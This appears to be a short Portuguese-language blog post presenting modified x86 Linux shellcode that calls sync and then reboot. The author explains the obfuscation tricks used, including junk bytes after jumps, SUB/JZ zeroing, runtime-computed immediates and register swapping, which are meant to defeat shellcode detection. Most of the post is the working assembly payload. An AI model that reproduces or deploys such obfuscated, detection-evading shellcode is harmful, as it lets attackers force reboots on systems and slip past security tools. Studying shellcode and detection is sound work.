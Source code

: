 
Desta vez modificaremos um shellcode que chama a syscall sync (para evitar perda
de arquivos) e a reboot.

Segue a versão modificada.

{% highlight asm %}
# void sync(void);
# sync()

sub edi, edi
jz $+3
db 0xe8
add edi, 36
xchg eax, edi
jmp $+3
db 0xe1
int 0x80

# int reboot(int magic, int magic2, int cmd, void *arg);
# reboot(0xfee1dead, 0x28121969, 0x1234567, not_used)

jmp $+3
db 0xff
push 0x29
pop ecx
jmp $+3
db 0x01
mov ebx, 0x1234567
mov edx, 0xffc29bca
xor edx, ebx

jnz $+3
db 0xe7
xchg ebx, edx
lea eax, [ecx+0x2f]
lea ecx, [ecx+0x28121940]
jmp $+4
db 0xe8, 0x01
int 0x80
{% endhighlight %} [//]: # (*)

O código faz o mesmo que o original, com a diferença de não usar a syscall exit.
Pensem comigo: se o sistema já estará em processo de reinicialização, para que
se preocupar em fechar o programa? ;)

Também utilizei a técnica da SUB reg, reg, para zerar o registrador, seguida de
uma JZ. Como a subtração sempre setará o ZF, sempre haverá o jump. Essa é mais
uma técnica que embaralha a detecção do shellcode. Podem perceber que também não
fiz uso dos valores imediatos corretos; eles são calculados durante a execução.
Outra técnica empregada foi a de permutar os registradores, confundindo cada vez
mais a identificação do objetivo do código.
